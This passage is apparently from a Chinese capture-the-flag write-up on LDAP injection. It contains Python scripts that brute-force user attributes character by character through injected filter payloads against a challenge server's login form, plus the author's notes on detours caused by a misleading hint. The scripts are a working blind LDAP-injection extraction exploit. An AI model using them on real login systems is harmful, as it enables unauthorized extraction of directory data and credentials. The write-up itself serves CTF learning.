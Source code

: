 ```python
            break
        # if "密码错误" in res.text:
        #     print(payload)
        #     # print(res.text)
        #     name += i
        #     break
        if i == "-":
            print(name)
            sys.exit(payload)

```

虽然这题是这么做的，但是实际上我饶了很多弯路，因为出题人给的hint说是找属性，而且因为用户名冲突了，python当时不知道为啥没有扫出来ladpli，扫出来的是ladptest账户【导致我花了很多时间走了很多弯路】

### 题目以外的一些有趣的知识点

#### 扫attribute

题目hint提示是找attribute，然后我就写了如下脚本找：（这里是参考hitthebox的题目）

```python
import  string,requests,sys
url = "http://47.106.172.144:2333/"

words = string.digits +string.ascii_lowercase + "@._-"
# username orange yunwei nss@nss.moe ldaptest@test.com laeaf@nss.moe
paylist = open('1.txt')
# print(paylist.read())
flag = 0
usernamelist = ["ldaptest@test.com","orange","yunwei","nss@nss.moe","laeaf@nss.moe"]
# name = "ldaptest@test.com)(fax="
for username in usernamelist:
    # print(username)
    for attribute in paylist:
        flag = 0
        attribute = attribute.strip('\n')
        name = ""
        while flag < 20:
            for i in words:
                payload = "{})({}={}*".format(username,attribute,name+i)
                # print(payload)
                # payload = name + i +"*"
                params = {"user":payload,"pass":"123"}
                # print(payload)
                res = requests.get(url=url,params=params)
                # print(res.text)
                if "不唯一" in res.text:
                    # print(payload)
                    name += i
                    flag+=1
                    break
                    # continue
                if i == "-":
                    print(payload)
                    # dnm = 19
                    flag = 20

                    # sys.exit(payload)
```
